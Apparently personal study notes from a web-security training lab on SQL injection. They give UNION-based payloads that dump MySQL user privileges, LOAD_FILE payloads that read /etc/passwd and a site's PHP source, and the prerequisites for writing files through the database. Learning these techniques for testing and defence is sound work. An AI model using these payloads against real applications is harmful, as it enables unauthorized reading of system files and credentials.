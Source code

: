 
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

we can also dump other privs:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
to get it for a certain user:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

![[Pasted image 20250217101506.png]]

## LOAD_FILE

The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files.

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

## Another Example

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```


# Writing Files

## Write File Privileges

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

#### secure_file_priv

 An empty value lets us read files from the entire file system.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
`MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html)
